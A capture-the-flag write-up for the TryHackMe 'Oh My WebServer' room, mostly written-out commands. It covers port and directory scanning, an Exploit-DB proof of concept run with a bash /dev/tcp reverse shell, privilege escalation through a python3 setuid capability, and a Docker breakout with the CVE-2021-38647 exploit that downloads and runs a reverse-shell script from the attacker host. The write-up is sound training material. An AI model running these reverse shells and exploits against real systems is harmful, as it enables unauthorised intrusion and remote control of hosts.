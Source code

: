 # Oh My WebServer

**Room Link:** [https://tryhackme.com/room/ohmyweb](https://tryhackme.com/room/ohmyweb)



## Initial Scan

**Kali**

<pre><code><strong>nmap -A $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## Scan all ports

**Kali**

<pre><code><strong>nmap -sV -sT -O -p 1-65535 $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## TCP/80 - HTTP

**Kali**

```
gobuster dir -u $VICTIM -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



## Initial Shell

**Exploit:** [https://www.exploit-db.com/raw/50383](https://www.exploit-db.com/raw/50383)

**Kali**

```
nc -lvnp 1337
```

**Kali**

```
wget https://www.exploit-db.com/raw/50383 -O poc.sh
chmod +x poc.sh
./poc.sh targets.txt /bin/bash "bash -c 'bash -i >& /dev/tcp/$KALI/1337 0>&1'"
```

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Get autocomplete

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
ctrl + Z
stty raw -echo;fg
```



<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>





## Privileges Escalation

**Exploit:** [https://gtfobins.github.io/gtfobins/python/](https://gtfobins.github.io/gtfobins/python/)

<figure><img src="../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



**Victim**

```
getcap -r / 2>/dev/null
/usr/bin/python3.7 -c 'import os; os.setuid(0); os.system("/bin/sh")'
```

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



#### Nmap

Scanned the gateway&#x20;

**Kali**

```
wget https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/nmap
python2 -m SimpleHTTPServer 81
```

**Victim**

```
cd /tmp/
curl http://10.10.30.128:81/nmap -O nmap
chmod +x nmap
./nmap -p- 172.17.0.1 --min-rate=700 -vvv
```

<figure><img src="../../.gitbook/assets/image (8) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



## Privileges Escalation / Breakout of Docker



**shell.sh**

```
#!/bin/bash

sh -i >& /dev/tcp/$KALI/1338 0>&1
```

**Kali**

```
git clone https://github.com/horizon3ai/CVE-2021-38647.git
cd CVE-2021-38647/
python2 -m SimpleHTTPServer 81
```

**Victim**

```
cd /tmp/
curl http://10.10.30.128:81/omigod.py -O omigod.py
```

**Kali**

```
nc -lvnp 1338
```

**Victim**

```
python3 omigod.py -t 172.17.0.1 -c "curl http://$KALI:81/shell.sh -O shell.sh"
python3 omigod.py -t 172.17.0.1 -c "chmod +x shell.sh"
python3 omigod.py -t 172.17.0.1 -c "./shell.sh"
```

<figure><img src="../../.gitbook/assets/image (622).png" alt=""><figcaption></figcaption></figure>
